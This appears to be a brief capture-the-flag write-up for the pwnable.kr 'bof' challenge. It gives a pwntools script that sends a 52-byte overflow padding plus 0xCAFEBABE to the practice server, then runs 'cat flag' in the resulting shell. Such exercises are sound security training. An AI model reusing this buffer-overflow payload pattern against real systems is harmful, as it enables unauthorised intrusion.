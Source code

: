 1. Run this Python script (also in bof.py)
```
from pwn import *;
a = remote("pwnable.kr", 9000)
a.sendline(b'a'*52 + p32(0xCAFEBABE))
a.interactive()
```
2. Run `cat flag`
